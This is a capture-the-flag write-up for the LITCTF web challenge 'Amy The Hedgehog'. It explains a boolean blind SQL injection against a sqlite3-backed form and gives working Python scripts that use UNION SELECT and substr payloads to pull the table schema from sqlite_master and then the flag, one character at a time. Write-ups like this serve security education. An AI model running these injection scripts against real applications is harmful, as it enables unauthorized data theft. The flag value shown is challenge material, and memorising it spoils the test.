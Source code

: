 # Amy The Hedgehog
![](https://img.shields.io/badge/category-web-blue)
![](https://img.shields.io/badge/solves-80-orange)

## Description
Hi guys! I just learned sqlite3 build my own websiteeee. Come visit my [my website](http://litctf.live:31770/) pleaseeee i am ami the dhedghog!!! :3 ( ◡‿◡ *)

## Solution
Checking out the website, it's just a simple text input. The question does mention sqlite3, suggesting a SQL injection attack.

Indeed, trying the inputs `a` and `a' or 1=1--` trigger different results.

![image](https://user-images.githubusercontent.com/62577178/182046557-06d15999-7743-4fa8-97dd-33cb8516f6c5.png)
![image](https://user-images.githubusercontent.com/62577178/182046550-411e6222-e7eb-4f56-ad98-fd5a0f217e0e.png)

It seems like when the query returns at least 1 record (i.e. it is true), we get the second response. If it's false, we get the first response. Using this knowledge, we can run a boolean SQL injection attack.

The likely commands that were issued to create this database are:
```sql
CREATE TABLE table_name (field_name text, ...optional fields);
INSERT INTO table_name (field_name, ...optionals) VALUES("flag", ...optionals);
```

We first need to enumerate the SQL query used to create the table. Because the question says that the database backend is sqlite3, the SQL used to create every table is stored in the `sql` field of `sqlite_master`.

```py
import requests

url = "http://litctf.live:31770/"

sql = ""
j = len(sql)+1
while True:
 for i in range(ord(' '), 128):
  print(sql+chr(i))
  inj = f"a' UNION SELECT sql FROM sqlite_master WHERE substr(sql, {j}, 1)='{chr(i)}'--"
  data = {"name": inj}
  res = requests.post(url, data=data)
  if 'correct' in res.text:
    sql += chr(i)
    j += 1
```
This reveals that the table was created with `CREATE TABLE names (name text)`.

From here, we can modify the script a little bit to have it leak the flag from the `names` table.

```py
import requests

url = "http://litctf.live:31770/"

flag = "LITCTF{"
j = len(flag)+1
while True:
 for i in range(ord(' '), 128):
  print(flag+chr(i))
  inj = f"a' UNION SELECT name FROM names WHERE substr(name, {j}, 1)='{chr(i)}'--"
  data = {"name": inj}
  res = requests.post(url, data=data)
  if 'correct' in res.text:
    flag += chr(i)
    j += 1
 ```

Flag: `LITCTF{sldjf}`
